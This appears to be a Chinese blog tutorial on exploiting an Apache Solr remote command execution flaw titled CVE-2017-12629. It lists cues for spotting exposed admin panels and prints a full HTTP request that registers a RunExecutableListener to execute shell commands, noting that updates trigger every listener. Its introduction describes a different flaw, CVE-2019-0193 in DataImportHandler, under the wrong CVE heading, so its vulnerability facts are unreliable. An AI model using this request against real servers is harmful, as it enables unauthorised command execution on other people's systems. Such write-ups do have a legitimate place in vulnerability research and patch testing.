 # Apache Solr 远程命令执行漏洞（CVE-2017-12629）

**2019年8月1日，Apache Solr官方发布了CVE-2019-0193漏洞预警，漏洞危害评级为严重。此次漏洞出现在Apache**
**Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。**

# 影响版本

```
Apache Solr 5.5.0到7.0.1版本
```



# 特征

**访问`8983`端口即可查看到`Apache solr`的管理页面，`无需登录`。（可能换端口）**
**网站title是`Solr Admin`，图标有点像一朵`红色的花`**

![img](https://img-blog.csdnimg.cn/70a0df95fbaa4ab0a913a65fd7520b0d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

# 漏洞利用

**此次7.1.0之前版本总共爆出两个漏洞：[XML](https://so.csdn.net/so/search?q=XML&spm=1001.2101.3001.7020)实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。**

https://paper.seebug.org/425/

**访问/solr/demo/config进行抓包**

**首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：**

```
POST /solr/demo/config HTTP/1.1
Host: your-ip  （修改为对应的IP）
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![img](https://img-blog.csdnimg.cn/16f8b56b59c84102b56f6c9808a284c5.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

**一个listener只能创建一次，所以用一次改一次**

**update触发listener，是触发所有listener！，所以之前已经存在的listener也会触发！listener不能创建太多了，不然会奔溃**


